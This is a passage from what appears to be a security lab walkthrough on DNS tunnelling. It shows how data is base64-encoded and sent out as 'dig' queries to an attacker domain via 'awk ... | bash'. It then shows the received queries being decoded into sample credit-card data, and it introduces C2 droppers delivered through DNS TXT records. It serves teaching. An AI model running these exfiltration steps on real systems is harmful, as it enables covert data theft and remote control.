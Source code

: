     We added two things at the end of the command:
    - `awk '{print "dig +short " $1}'` The `awk` command is used to process text data. In this case, it takes the single line of text and prints a `dig +short` command followed by the text from the line, effectively creating a `dig` command. 
    - `bash` This executes the `dig` command generated by `awk` through the Bash shell.

    We can see how the output has changed by adding the `awk` command:

    ![awk-command](awk-command.jpg)

    We can also see the full process, including the received DNS request:

    ![DNS Data Exfil](dns-data-transfer.png)

5. Once our DNS request is received, we can stop `tcpdump`, clean, and decode the received data:

    ```shell
    thm@attacker:~$ echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com." | cut -d "." -f1-8 | tr -d "." | base64 -d
    # Name: THM-user
    # Address: 1234 Internet, THM
    # Credit Card: 1234-1234-1234-1234
    # Expire: 05/05/2022
    # Code: 1337
    ```

    The above command echoes the given string and then:
    1. `cut -d "." -f1-8` Splits the string into fields using `.` as the delimiter, and then selects fields 1 through 8.
    2. `tr -d "."` Removes all occurrences of the `.` character in the output generated by the `cut` command.
    3. `base64 -d` Decodes the final result from Base64 to its original form.

### 7.3 C2 Communications over DNS

Command and Control (C2) frameworks use the **TXT DNS record** to run a [**dropper**](https://encyclopedia.kaspersky.com/glossary/trojan-droppers/) for downloading extra files on a target. This section simulates how to execute a bash script, our dropper for this task, over DNS. 

Let's say we have the following bash script which simply sends one ICMP echo request packet to `test.thm.com`.:

```bash
#!/bin/bash
ping -c 1 test.thm.com
```
